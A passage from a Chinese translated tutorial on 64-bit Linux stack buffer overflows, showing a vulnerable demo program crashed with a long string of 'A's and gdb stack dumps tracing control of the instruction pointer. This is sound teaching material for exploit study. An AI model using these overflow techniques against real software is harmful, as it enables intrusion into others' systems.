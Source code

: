 这样就一切妥当了。

0x03 触发溢出
---------

* * *

首先我们来确认一下确实可以让这个进程崩溃。

```
$ ./bof $(python -c 'print "A" * 300')
0x7fffffffdcd0 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA AAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

```

好来确认一下我们控制的RIP指令指针

![enter image description here](http://drops.javaweb.org/uploads/images/645e95441e1cab73159c13861d89b1704b0a8a61.jpg)

你可以通过stepi单步执行来过一遍程序流程译者应该用ni比较合适。 当过了strcpy调用(0x40066c)之后你会发现当前缓冲区指针指向0x7fffffffdc90而不是0x7fffffffdcd0这是gdb的环境变量和其他东西造成的。不过现在我们不关心之后会解决的。 重要的说明* 在之后的内容中当我提到leave指令时就是指的上面的地址0x400685。 最后这是strcpy过后的栈

```
(gdb) x/20xg $rsp 
0x7fffffffdc80: 0x00007fffffffde78 0x00000002f7ffe520 
0x7fffffffdc90: 0x4141414141414141 0x4141414141414141 
0x7fffffffdca0: 0x4141414141414141 0x4141414141414141 
0x7fffffffdcb0: 0x4141414141414141 0x4141414141414141 
0x7fffffffdcc0: 0x4141414141414141 0x4141414141414141 
0x7fffffffdcd0: 0x4141414141414141 0x4141414141414141 
0x7fffffffdce0: 0x4141414141414141 0x4141414141414141 
0x7fffffffdcf0: 0x4141414141414141 0x4141414141414141 
0x7fffffffdd00: 0x4141414141414141 0x4141414141414141 
0x7fffffffdd10: 0x4141414141414141 0x4141414141414141 

```

接着主函数(main)中的leave指令把rsp指向0x7fffffffdd98。 栈就变成了这样子

```
(gdb) x/20xg $rsp 
0x7fffffffdd98: 0x4141414141414141 0x4141414141414141 
0x7fffffffdda8: 0x4141414141414141 0x4141414141414141 
0x7fffffffddb8: 0x0000000041414141 0x0000000000000000 
0x7fffffffddc8: 0xa1c4af9213d095db 0x0000000000400520 
0x7fffffffddd8: 0x00007fffffffde70 0x0000000000000000 
0x7fffffffdde8: 0x0000000000000000 0x5e3b506da89095db 
0x7fffffffddf8: 0x5e3b40d4af2a95db 0x0000000000000000 
0x7fffffffde08: 0x0000000000000000 0x0000000000000000 
0x7fffffffde18: 0x0000000000400690 0x00007fffffffde78 
0x7fffffffde28: 0x0000000000000002 0x0000000000000000 
(gdb) stepi 
Program received signal SIGSEGV, Segmentation fault.

```

